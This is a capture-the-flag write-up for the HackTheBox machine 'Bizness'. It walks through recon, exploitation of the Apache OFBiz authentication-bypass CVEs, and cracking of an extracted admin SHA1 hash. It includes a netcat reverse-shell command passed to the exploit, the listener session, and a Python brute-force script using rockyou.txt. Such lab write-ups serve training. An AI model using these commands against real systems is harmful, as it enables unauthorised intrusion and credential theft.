



# Bizness

## Machine Info

## Recon

- nmap

```console
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn:
|_  http/1.1
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg:
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
45639/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path
  - `https://bizness.htb/accounting/control/main`
  - Apache OFBiz. Release 18.12

```console
$ dirsearch -u https://bizness.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/qwe/pwk/s4/Bizness/reports/https_bizness.htb/__24-01-09_07-12-16.txt

Target: https://bizness.htb/

[07:12:16] Starting:
[07:12:23] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[07:12:32] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[07:12:33] 302 -    0B  - /common  ->  https://bizness.htb/common/
[07:12:34] 302 -    0B  - /content  ->  https://bizness.htb/content/
[07:12:34] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[07:12:34] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[07:12:34] 200 -   34KB - /control
[07:12:34] 200 -   34KB - /control/
[07:12:35] 200 -   11KB - /control/login
[07:12:37] 302 -    0B  - /error  ->  https://bizness.htb/error/
[07:12:37] 302 -    0B  - /example  ->  https://bizness.htb/example/
[07:12:40] 302 -    0B  - /images  ->  https://bizness.htb/images/
[07:12:40] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[07:12:54] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[07:12:54] 200 -   21B  - /solr/admin/
[07:12:54] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/
```



- subdomain: nothing

## Foothold

### CVE-2023-49070 & CVE-2023-51467

- [Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-49070 and CVE-2023-51467) - vsociety (vicarius.io)](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467)

- [jakabakos/Apache-OFBiz-Authentication-Bypass: This repo is a PoC with to exploit CVE-2023-51467 and CVE-2023-49070 preauth RCE vulnerabilities found in Apache OFBiz. (github.com)](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

```console
$ python3 exploit.py --url https://bizness.htb/
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.54 1234 -e /bin/bash'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.252] 41428
python3 -c 'import pty;pty.spawn("/bin/bash")'
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
ofbiz@bizness:/opt/ofbiz$ uname -a
uname -a
Linux bizness 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
ofbiz@bizness:/opt/ofbiz$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:91:80 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.252/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:9180/64 scope link
       valid_lft forever preferred_lft forever
ofbiz@bizness:/opt/ofbiz$
```

## Privilege Escalation

### hash value 1

- enum

```console
ofbiz@bizness:/opt/ofbiz/framework$ grep -lri password . | grep xml
./entity/config/entityengine.xml
./entity/entitydef/entitymodel.xml
./documents/SingleSignOn.xml
./service/ofbiz-component.xml
./service/config/serviceengine.xml
./service/config/axis2/conf/axis2.xml
./service/src/main/java/org/apache/ofbiz/service/xmlrpc/AliasSupportedTransportFactory.java
./service/src/main/java/org/apache/ofbiz/service/xmlrpc/XmlRpcClient.java
./service/servicedef/services.xml
./resources/templates/AdminUserLoginData.xml
./resources/templates/AdminNewTenantData-PostgreSQL.xml
./resources/templates/AdminNewTenantData-Oracle.xml
./resources/templates/AdminNewTenantData-Derby.xml
./resources/templates/AdminNewTenantData-MySQL.xml
./common/data/CommonSystemPropertyData.xml
./common/data/CommonTypeData.xml
./common/config/SecurityUiLabels.xml
./common/config/CommonUiLabels.xml
./common/config/CommonEntityLabels.xml
./common/config/SecurityextUiLabels.xml
./common/widget/CommonScreens.xml
./common/widget/SecurityScreens.xml
./common/widget/SecurityForms.xml
./common/servicedef/services_email.xml
./common/servicedef/services.xml
./common/documents/SendingEmail.xml
./common/webcommon/WEB-INF/common-controller.xml
./common/webcommon/WEB-INF/security-controller.xml
./common/minilang/test/UserLoginTests.xml
./webtools/config/WebtoolsUiLabels.xml
./security/ofbiz-component.xml
./security/data/PasswordSecurityDemoData.xml
./security/entitydef/entitymodel.xml

ofbiz@bizness:/opt/ofbiz/framework$ cat ./resources/templates/AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

- `47ca69ebb4bdc9ae0adec130880165d2cc05db1a`: uncrackable

### hash value 2

- enum dearby database files



- search db files and compile file content together to discover another hash value

```console
ofbiz@bizness:/tmp$ find / -name '*.dat' -type f 2>/dev/null > /tmp/qwe

cat /tmp/qwe | less
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c510.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c2b1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c161.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c130.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c581.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c230.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/cc0.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c260.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c3f1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c2d0.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c1c0.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c251.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c5d1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c3a1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c2a1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c5a1.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c351.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c111.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/c490.dat
/opt/ofbiz/runtime/data/derby/ofbiztenant/log/log1.dat
/etc/java-11-openjdk/security/public_suffix_list.dat

ofbiz@bizness:/tmp$ cat qwe | xargs strings | grep SHA
strings: /var/cache/debconf/passwords.dat: Permission denied
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
SHA-256
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
MARSHALL ISLANDS
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!!
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
SHA-256
SHA-256
```

- for `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
  1. this is a SHA1 hash value
  2. salt value = d
  3. hash value is base64 encoded

[1] method: hashcat

- `uP0_QaVBpDWFeo8-dRzDqRwXQ2I=` -> `b8fd3f41a541a435857a8f3e751cc3a91c174362`

```python
import base64

encoded_hash = 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I='
binary_hash = base64.urlsafe_b64decode(encoded_hash)
hex_hash = binary_hash.hex()

print(hex_hash)
```



- crack SHA1 hash

```console
$ cat hash
b8fd3f41a541a435857a8f3e751cc3a91c174362:d

$ hashcat -m 110 -a 0 hash /usr/share/wordlists/rockyou.txt --show
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

[2] method: python script to decrypt

```py
import hashlib
import base64
import os
from tqdm import tqdm

hash_type = "SHA1"
salt = "d"
result = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

def SHA1(salt, plain_text):
    hash = hashlib.new(hash_type)
    hash.update(salt.encode('utf-8'))
    hash.update(plain_text.encode('utf-8'))
    encrypted_bytes = hash.digest()
    encrypted_text  = base64.urlsafe_b64encode(encrypted_bytes).decode('utf-8').replace('+', '.')
    result = f"$SHA1$d${encrypted_text}"
    return result

with open(wordlist, 'r', encoding='latin-1') as f:
    passwords = f.readlines()
    for password in tqdm(passwords, total=len(passwords), desc='cracking'):
        match = SHA1(salt, password.strip())
        if match == result:
            print(f"password found: {password}")
            break
```

## Exploit Chain

port scan -> web path recon -> service version -> CVE found -> exp -> user shell -> hash values found -> crack -> root shell
